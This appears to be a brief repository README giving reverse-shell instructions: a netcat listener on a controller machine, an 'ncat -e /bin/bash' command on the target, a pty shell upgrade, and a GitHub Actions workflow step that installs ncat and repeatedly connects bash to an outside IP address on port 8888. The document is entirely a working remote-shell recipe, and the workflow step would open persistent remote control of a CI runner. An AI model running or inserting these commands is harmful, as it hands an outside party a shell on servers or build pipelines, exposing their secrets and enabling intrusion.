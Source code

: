 # How?
- in controller server
```sh
nc -nlvp 8888
```
- in target server
```sh
ncat -e /bin/bash 127.0.0.1 8888
```
- for better terminal run
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

# GHA
```yaml
- name: reverse-shell
  shell: bash
  run: |
    sudo apt-get update -y
    sudo apt-get install -y ncat
    set +e
    while true; do ncat -e /bin/bash 35.176.8.88 8888; sleep 2; echo 'reconnecting..'; done
```
